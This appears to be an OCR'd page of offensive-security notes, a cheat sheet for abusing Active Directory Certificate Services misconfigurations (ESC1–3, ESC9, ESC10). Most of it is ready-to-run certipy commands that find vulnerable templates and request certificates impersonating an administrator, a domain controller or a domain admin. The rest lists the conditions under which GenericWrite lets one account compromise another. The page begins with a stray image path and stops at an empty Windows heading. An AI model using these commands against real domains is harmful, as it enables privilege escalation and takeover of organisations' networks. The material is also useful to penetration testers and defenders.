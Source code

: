##### Linux

###### ESC1 & 2
```bash
# enumerate and save text, json and bloodhound (original) outputs
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -old-bloodhound

# quickly spot vulnerable elements
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -vulnerable -stdout

#To specify a user account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -upn 'administrator@contoso.local'

#To specify a computer account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -dns 'dc.contoso.local'
```

If **ANY EKU** but no Client Authentication, it can be used as en **ESC3**.

###### ESC2 & 3
```bash
# Request a certificate specifying the Certificate Request Agent EKU
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template'

# Used issued certificate to request another certificate on behalf of another user
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'User' -on-behalf-of 'contoso\domain admin' -pfx 'user.pfx'
```

#### Extension misconfiguration - ESC9 & 10

* **ESC9** : No security extension, the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`
  * `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
  * The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
  * The template specifies client authentication
  * `GenericWrite` right against any account A to compromise any account B
* **ESC10** : Weak certificate mapping
  * Case 1 : `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
    * A template that specifiy client authentication is enabled
    * `GenericWrite` right against any account A to compromise any account B
  * Case 2 : `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
    * A template that specifiy client authentication is enabled
    * `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)

##### Windows
